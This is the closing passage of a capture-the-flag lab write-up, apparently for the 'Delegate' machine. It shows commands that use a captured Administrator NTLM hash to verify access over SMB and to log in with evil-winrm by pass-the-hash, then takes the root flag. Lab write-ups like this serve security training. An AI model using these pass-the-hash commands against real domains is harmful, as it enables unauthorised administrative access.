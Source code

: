 Lets confirm the administrator hash.

```bash
nxc smb delegate.vl -u 'Administrator' -H 'c32198ceab4cc695e65045562aa3ee93' --shares
```

![image.png](/assets/images/Delegate_VL/image%2038.png)

Lets now login with Administrator.

```bash
evil-winrm -i delegate.vl -u 'Administrator' -H 'c32198ceab4cc695e65045562aa3ee93'
```

![image.png](/assets/images/Delegate_VL/image%2039.png)

We are in!

Grabbing the root.txt and submitting it.

![image.png](/assets/images/Delegate_VL/image%2040.png)

Rooted!
